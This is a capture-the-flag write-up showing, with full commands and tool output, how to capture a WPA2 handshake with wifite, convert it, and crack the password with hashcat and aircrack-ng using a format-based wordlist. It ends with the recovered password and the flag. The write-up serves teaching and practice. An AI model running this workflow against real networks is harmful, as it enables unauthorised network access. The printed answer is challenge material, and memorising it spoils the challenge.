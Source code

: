 # Write-up — Space InSSIDers

**Author:** sl0wguy - Léopold  
**Category:** Misc  
**Difficulty:** Medium  
**Flag format:** `AMSI{PASSWORD}`

---

## Prompt

You've intercepted the **"INVADERS_78"** hotspot, which is WPA2 protected. A sticky note reveals that the password follows this format:

- Contains `invaders` (case-sensitive)
- **Exactly 2 digits**
- **Exactly 2 special characters**

Valid example: `InvADers78!@`

---

## Step 1 - Capturing the handshake with Wifite

```bash
$ sudo wifite

   .               .    
 .´  ·  .     .  ·  `.  wifite2 2.6.0
 :  :  :  (¯)  :  :  :  a wireless auditor by derv82
 `.  ·  ` /¯\ ´  ·  .´  maintained by kimocoder
   `     /¯¯¯\     ´    https://github.com/kimocoder/wifite2

 [!] Warning: Recommended app bully was not found. install @ https://github.com/aanarchyy/bully
 [!] Warning: Recommended app pyrit was not found. install @ https://github.com/JPaulMora/Pyrit/wiki
 [!] Warning: Recommended app macchanger was not found. install @ apt install macchanger
 [!] Conflicting processes: avahi-daemon (PID 719), NetworkManager (PID 727), wpa_supplicant (PID 779), avahi-daemon (PID 795)
 [!] If you have problems: kill -9 PID or re-run wifite with --kill

    Interface   PHY   Driver              Chipset          
-----------------------------------------------------------------------
 1. wlo1        phy0  iwlwifi             Intel Corporation Comet Lake PCH-LP CNVi WiFi

 [+] enabling monitor mode on wlo1... enabled wlo1mon

   NUM                      ESSID   CH  ENCR   POWER  WPS?  CLIENT                      
   ---  -------------------------  ---  -----  -----  ----  ------
     1              Livebox-1460     6  WPA-P   77db  lock 
     2             Bbox-BD2AF24F     6  WPA-P   77db    no 
    ..              ......................................                       
    23               INVADERS_78     6  WPA-P  -26db    no 
 [+] select target(s) (1-23) separated by commas, dashes or all: 23                     

 [+] (1/1) Starting attacks against 34:29:12:14:3A:E6 (INVADERS_78)
 [+] INVADERS_78 (-26db) PMKID CAPTURE: Failed to capture PMKID   
 
 [+] INVADERS_78 (90db) WPA Handshake capture: Captured handshake                       
 [+] saving copy of handshake to hs/handshake_INVADERS78_34-29-12-14-3A-E6_2025-06-10T23-43-42.cap saved
 .....

$ sudo airmon-ng stop wlo1mon
```

After scanning available networks, we target `INVADERS_78`. The handshake is successfully captured and saved as a `.cap` file:

```bash
hs/handshake_INVADERS78_34-29-12-14-3A-E6_2025-06-10T23-43-42.cap
```

---

## Step 2 - Converting the .cap to hashcat format

```bash
$ hcxpcapngtool hs/handshake_INVADERS78_34-29-12-14-3A-E6_2025-06-10T23-43-42.cap -o INVADERS.hash
```

A `.hash` file is generated, ready for brute force or dictionary attack.

---

## Step 3 - Cracking with Hashcat

We use a custom wordlist generator that follows the required format:

- `"invaders"` with casing variations
- 2 digits (00–99)
- 2 special characters (`!@#$%^&*()`, etc.)

Total combinations: about **14 million**. Then run:

```bash
$ hashcat -m 22000 INVADERS.hash passwords.txt

hashcat (v6.2.5) starting

* Device #1: WARNING! Kernel exec timeout is not disabled.
             This may cause "CL_OUT_OF_RESOURCES" or related errors.
             To disable the timeout, see: https://hashcat.net/q/timeoutpatch
* Device #3: WARNING! Kernel exec timeout is not disabled.
             This may cause "CL_OUT_OF_RESOURCES" or related errors.
             To disable the timeout, see: https://hashcat.net/q/timeoutpatch
CUDA API (CUDA 12.4)
====================
* Device #1: NVIDIA GeForce GTX 1060 3GB, 2657/3003 MB, 9MCU

.......

5f0a50d5a8ab78612c7d80972fb80b23:342912143ae6:4827ea1c1777:INVADERS_78:inVADerS09+!

Session..........: hashcat
Status...........: Cracked
Hash.Mode........: 22000 (WPA-PBKDF2-PMKID+EAPOL)
Hash.Target......: ./INVADERS.hash
Time.Started.....: Tue Jun 10 23:52:25 2025 (1 min, 18 secs)
Time.Estimated...: Tue Jun 10 23:53:43 2025 (0 secs)
Kernel.Feature...: Pure Kernel
Guess.Base.......: File (./passwords.txt)
Guess.Queue......: 1/1 (100.00%)
Speed.#1.........:   116.1 kH/s (5.16ms) @ Accel:4 Loops:256 Thr:512 Vec:1
Recovered........: 1/1 (100.00%) Digests
Progress.........: 8994816/14745600 (61.00%)
Rejected.........: 0/8994816 (0.00%)
Restore.Point....: 8976384/14745600 (60.88%)
Restore.Sub.#1...: Salt:0 Amplifier:0-1 Iteration:0-1
Candidate.Engine.: Device Generator
Candidates.#1....: INvADerS84:; -> inVADerS15|{
Hardware.Mon.#1..: Temp: 52c Fan: 46% Util: 54% Core:1949MHz Mem:3802MHz Bus:16

Started: Tue Jun 10 23:52:24 2025
Stopped: Tue Jun 10 23:53:44 2025
```

### Result

```bash
5f0a50d5a8ab78612c7d80972fb80b23:342912143ae6:...:INVADERS_78:inVADerS09+!
```

The WiFi password is:

```
inVADerS09+!
```

---

## Alternative: Cracking with Aircrack-ng

```bash
$ aircrack-ng hs/handshake_INVADERS78_34-29-12-14-3A-E6_2025-06-10T23-43-42.cap -w passwords.txt
...
                               Aircrack-ng 1.6 

      [00:15:12] 9099600/14745600 keys tested (10145.05 k/s) 

      Time left: 9 minutes, 16 seconds                          61.71%

                         KEY FOUND! [ inVADerS09+! ]


      Master Key     : 9A BA 8D D1 C8 3A 49 48 D6 30 E0 10 CC 8C 61 F2 
                       4C 40 92 89 F8 17 36 B8 85 FB 9D F1 80 69 89 4B 

      Transient Key  : B3 24 3D DF 00 20 06 A0 1C 5C EC 68 E5 8C F4 5C 
                       1D 86 D6 18 20 6A 71 6F 20 5A 45 A7 68 83 D0 A1 
                       84 15 74 0F 88 F9 BB 1B 5C D4 18 22 D0 CB 71 00 
                       00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 

      EAPOL HMAC     : 5F 0A 50 D5 A8 AB 78 61 2C 7D 80 97 2F B8 0B 23 
```

It works too, but takes ~25 minutes instead of 2 minutes with hashcat + GPU.

---

## Flag

```
AMSI{inVADerS09+!}
```